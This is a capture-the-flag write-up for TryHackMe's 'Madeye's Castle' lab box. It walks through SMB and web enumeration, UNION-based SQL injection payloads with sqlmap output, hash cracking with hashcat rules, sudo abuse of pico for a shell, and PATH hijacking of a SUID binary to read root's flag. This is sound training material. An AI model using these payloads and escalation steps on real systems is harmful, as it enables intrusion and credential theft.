




<p align="center"></p>
<h1><p align="center"> Madeye's Castle </p></h1>
<h2><p align="center"> A boot2root box that is modified from a box used in CuCTF by the team at Runcode.ninja </p></h2>
<h3><p align="center">Room Link: <a href='https://tryhackme.com/room/madeyescastle' target='_blank'>THM-Madeye's Castle </a></p></h3>

So lets dive in...
Began with a simple nmap scan to know about the target.
```bash
$ sudo nmap -T4 -sC -sS 10.10.50.42 > nmap.out 
$ cat nmap.out 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-04 12:16 EST
Nmap scan report for 10.10.50.42
Host is up (0.16s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE
22/tcp  open  ssh
| ssh-hostkey: 
|   2048 7f:5f:48:fa:3d:3e:e6:9c:23:94:33:d1:8d:22:b4:7a (RSA)
|   256 53:75:a7:4a:a8:aa:46:66:6a:12:8c:cd:c2:6f:39:aa (ECDSA)
|_  256 7f:c2:2f:3d:64:d9:0a:50:74:60:36:03:98:00:75:98 (ED25519)
80/tcp  open  http
|_http-title: Apache2 Ubuntu Default Page: Amazingly It works
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
|_nbstat: NetBIOS name: HOGWARTZ-CASTLE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: hogwartz-castle
|   NetBIOS computer name: HOGWARTZ-CASTLE\x00
|   Domain name: \x00
|   FQDN: hogwartz-castle
|_  System time: 2021-03-04T17:16:59+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-04T17:16:59
|_  start_date: N/A

Nmap done: 1 IP address (1 host up) scanned in 53.17 seconds.
```
We have smb port open lets explore that...
```bash
 smbclient -NL //10.10.50.42                                                                                                  1 ⨯

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        sambashare      Disk      Harry's Important Files
        IPC$            IPC       IPC Service (hogwartz-castle server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```
Shows sambashare is available to anonymously. Login to sambashare.
```bash
$ smbclient -N //10.10.50.42/sambashare
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Nov 25 20:19:20 2020
  ..                                  D        0  Wed Nov 25 19:57:55 2020
  spellnames.txt                      N      874  Wed Nov 25 20:06:32 2020
  .notes.txt                          H      147  Wed Nov 25 20:19:19 2020

                9219412 blocks of size 1024. 4398656 blocks available
smb: \> get spellnames.txt
getting file \spellnames.txt of size 874 as spellnames.txt (1.5 KiloBytes/sec) (average 1.5 KiloBytes/sec)
smb: \> get .notes.txt
getting file \.notes.txt of size 147 as .notes.txt (0.2 KiloBytes/sec) (average 0.9 KiloBytes/sec)
```
```bash
$ cat .notes.txt                     
Hagrid told me that spells names are not good since they will not "rock you"
Hermonine loves historical text editors along with reading old books.
```
Looking the .note.txt file I know spellnames.txt were some sort of password reference. But I had no idea what they are or might be.
 
So lets enumerate forth.
Since port 80 is open its worth while to run a gobuster scan on it. 
```bash
sudo gobuster dir -u http://10.10.50.42 -w=/usr/share/wordlists/SecLists-master/Discovery/Web-Content/raft-small-directories.txt -e -o dir.backup.out
$ cat dir.out 
http://10.10.50.42/backup (Status: 301)
http://10.10.50.42/server-status (Status: 403)
```
We got a 301 hit on backup directory lets run gobuster on it again.
```bash
sudo gobuster dir -u http://10.10.50.42/backup/ -w=/usr/share/wordlists/SecLists-master/Discovery/Web-Content/raft-small-directories.txt -e -o dir.backup.out
$ cat dir.backup.out 
http://10.10.50.42/backup/email (Status: 200)
```
<p align="center"></p>

Found that there is virtual website ```hogwartz-castle.thm``` so add target ip to ```/etc/hosts/``` which is a login page and doest have default creds.
Lets try sql injections. Trying some basic injections we know its vulnerable to sql injections.
So first intercept requests using burp and save it.

<p align="center"></p>

Lets try sqlmap to know the type of working payloads.
```bash
$ sqlmap -r requests --dump-all --level 5 --risk 3 --thread 8
...

    Type: UNION query
    Title: Generic UNION query (random number) - 4 columns
    Payload: user=FaLLen' UNION ALL SELECT 9118,9118,9118,'qzpvq'||'PzdcYSPAvejKwdhBVyywOAPjyFXLtruTASgivgUZ'||'qjbkq'-- mBTr&password=GuY
---
[04:18:58] [INFO] the back-end DBMS is SQLite
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: SQLite
[04:18:58] [INFO] sqlmap will dump entries of all tables from all databases now
[04:18:58] [INFO] fetching tables for database: 'SQLite_masterdb'
[04:19:09] [WARNING] the SQL query provided does not return any output
[04:19:09] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[04:19:09] [INFO] fetching number of tables for database 'SQLite_masterdb'
[04:19:09] [INFO] resumed: 1
[04:19:09] [INFO] retrieving the length of query output
[04:19:09] [INFO] resumed: 5
[04:19:09] [INFO] resumed: users
[04:19:09] [INFO] fetching columns for table 'users' 
[04:19:10] [WARNING] unable to retrieve column names for table 'users' 
...
```
So sqlmap gave us there is a user table and 4 columns and user field is vulnerable to union injections.
lets craft some union based sql queries.
``` 
user= Harry' UNION ALL SELECT 1,2,3,4 from users --&password=potter
```
This query gave a error response ```{"error":"The password for 1 is incorrect! 4"}``` which means first column must be usernames and forth column must be password.
Bruteforcing column names in burpsuite with query ```user=Fallen'+UNION+ALL+SELECT+1,2,3,+from+users--&password=hey```
and found some column names.
 
<p align="center"></p>

Now trying sql queries with found column names.
```
user=Harry' UNION ALL SELECT name,2,3,password from users where rowid='2'--&password=potter
{"error":"The password for Harry Turner is incorrect! b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885"}

user=Harry' UNION ALL SELECT name,2,3,notes from users where rowid='2'--&password=potter
{"error":"The password for Harry Turner is incorrect! My linux username is my first name, and password uses best64"}
```
Now after trying every way to crack the hash with base 64 as hinted. I googled and found that hashcat has its own rule named - 'best64'.
Converting the hash with best64 and cracking it with spellnames.txt we have the password.
```bash
$ hashcat --stdout -r /usr/share/hashcat/rules/best64.rule spellnames.txt > passwd.txt
$ sudo hashcat -m1700 -O hash passwd.txt 
...
Dictionary cache built:
* Filename..: passwd.txt                                                                                                              
* Passwords.: 6237                                                                                                                    
* Bytes.....: 63614                                                                                                                   
* Keyspace..: 6237                                                                                                                    
* Runtime...: 0 secs                                                                                                                  
                                                                                                                                      
Approaching final keyspace - workload adjusted.                                                                                       
                                                                                                                                      
b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885:wingardiumleviosa123
...
```

Since port 22 is open, SSH into the machine.
```bash
$ ssh harry@10.10.41.99                                                                                                   148 ? 2 ?
The authenticity of host '10.10.41.99 (10.10.41.99)' can't be established.
ECDSA key fingerprint is SHA256:tqvs4QmNV2BNfZVq42KFIsFtERVf7F4W5ziragiTf/0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.41.99' (ECDSA) to the list of known hosts.
harry@10.10.41.99's password: 
 _      __    __                     __         __ __                          __
 | | /| / /__ / /______  __ _  ___   / /____    / // /__  ___ __    _____ _____/ /____
 | |/ |/ / -_) / __/ _ \/  ' \/ -_) / __/ _ \  / _  / _ \/ _ `/ |/|/ / _ `/ __/ __/_ /
 |__/|__/\__/_/\__/\___/_/_/_/\__/  \__/\___/ /_//_/\___/\_, /|__,__/\_,_/_/  \__//__/
                                                        /___/

Last login: Thu Nov 26 01:42:18 2020
harry@hogwartz-castle:~$ ls
user1.txt
harry@hogwartz-castle:~$ cat user1.txt 
RME{********************************}
````

### Privilege Escalation.

Check whether harry user is in sudoers group.
```bash
harry@hogwartz-castle:~$ sudo -l
[sudo] password for harry: 
Matching Defaults entries for harry on hogwartz-castle:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User harry may run the following commands on hogwartz-castle:
    (hermonine) /usr/bin/pico
    (hermonine) /usr/bin/pico
```
So user harry can run pico as hermonine user. Lets Exploit it, visit [GTFOBins](https://gtfobins.github.io/) 
and search for pico bin exploits.

<p align="center"></p>

```bash
harry@hogwartz-castle:~$ sudo -u hermonine /usr/bin/pico
```
We have a shell as hermonine user. Stabalize it using python one-liner and cat out user2.txt.
```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
hermonine@hogwartz-castle:/home/hermonine$ ls
user2.txt
hermonine@hogwartz-castle:/home/hermonine$cat user2.txt
RME{********************************}
```
Now lets check for any access to root executable with hermonine user.
```bash
hermonine@hogwartz-castle:/home/hermonine$ find / -perm -u=s 2>/dev/null

/srv/time-turner/swagger
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newuidmap
/usr/bin/traceroute6.iputils
...
/bin/umount
/bin/fusermount
/bin/su
/bin/ping
/bin/mount
```
Nothing stands out except ```/srv/time-turner/swagger``` rest all are defaults.
Looks like its a binary file lets copy it to our machine and analyse it.
```bash
$ scp kali@10.8.155.126:/home/kali/Desktop/THM/Rooms/MadeyeCastle/ srv/time-turner/swagger
$ strings swagger .txt
...

_ITM_registerTMCloneTable
AWAVI
AUATL
[]A\A]A^A_
Nice use of the time-turner!
This system architecture is 
uname -p
Guess my number: 
Nope, that is not what I was thinking
I was thinking of %d
;*3$"
...
```
From the above code it is obvious that on Correct guess it will call uname -p command.
lets create a malicious code to be executed.

```bash
hermonine@hogwartz-castle:/home/hermonine$  echo '123'|/srv/time-turner/swagger| awk -F 'of ' '{print $2}' |/srv/time-turner/swagger

Guess my number: Nice use of the time-turner!
This system architecture is x86_64
```
We were able to guess correct number now its turn to cat out our flag. ove to tmp directory and create a file uname with the command to be executed
on successful binary execution. I tried to get a shell or even change the password of root user bu didn't work.

```bash
hermonine@hogwartz-castle:/home/hermonine$ cd /tmp
hermonine@hogwartz-castle:/home/hermonine$ echo 'cat /root/root.txt'>uname
hermonine@hogwartz-castle:/home/hermonine$ chmod +x uname
hermonine@hogwartz-castle:/home/hermonine$ export PATH=/tmp:$uname
hermonine@hogwartz-castle:/home/hermonine$ echo '123'|/srv/time-turner/swagger| awk -F 'of ' '{print $2}' |/srv/time-turner/swagger

Guess my number: Nice use of the time-turner!
This system architecture is RME{********************************}
```
With this Madeye's Castle is Finished!!
